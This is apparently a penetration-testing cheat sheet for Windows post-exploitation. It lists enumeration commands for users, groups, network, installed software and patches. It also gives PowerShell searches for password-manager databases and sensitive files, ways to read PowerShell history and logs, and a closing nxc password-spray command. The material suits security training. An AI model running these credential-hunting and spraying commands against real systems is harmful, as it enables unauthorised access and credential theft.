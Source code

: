 # Situational awareness
```
- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes
```

## username and group
obtain username and hostname
```
whoami
```

obtain group memberships of the current user
```
whoami /groups
```

obtain local users
```
ner user
get-localuser
```

obtain user info
```
net user USERNAME
```

obtain member of the group
```
get-localgroupmember GROUP
```

Remote Desktop Users (can access the system with RDP)
```
get-localgroupmember "Remote Desktop Users"
```

Remote Desktop Managements (can access it with WinRM.)
```
get-localgroupmember "Remote Management Users"
```

## system and network
information about the os system
```
systeminfo
```

information aboud the network config
```
ipconfig /all
```

obatain routing table
```
route print
```

obtain active network connection
```
netstat -ano
```

## gathering applications 
intalled 32bit application
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

installed 64bit application
```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

running process
```
get-process
```

get process path
```
 Get-Process -Name PROCESSNAME -FileVersionInfo
```

## security patches
```
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
```
# Hidden in Plain View
search for password manager
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

Searching for sensitive information in XAMPP directory
```
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

Searching for text files and password manager databases in the home directory
```
Get-ChildItem -Path C:\Users\ -Include *.ini, *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

cmd
```
for %x in (ini txt pdf xls xlsx doc docx) do dir /s /b C:\Users\*.%x 2>nul
```

# Powershell Logs
powershell command history
```
get-history
```

path of the history file from PSReadline
```
(Get-PSReadlineOption).HistorySavePath
```

```
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Script Logging EventViewer
```
Go to Event Viewer → Events from Script Block Logging are in Application and Services → Microsoft → Windows → PowerShell → Operational
Click Filter Current Log and search for 4104 events. The event will be among the first top 5
```
# Password Spray
use nxc
```
nxc smb 192.168.x.x -u usres.txt -p passwords.txt --continue-on-success
```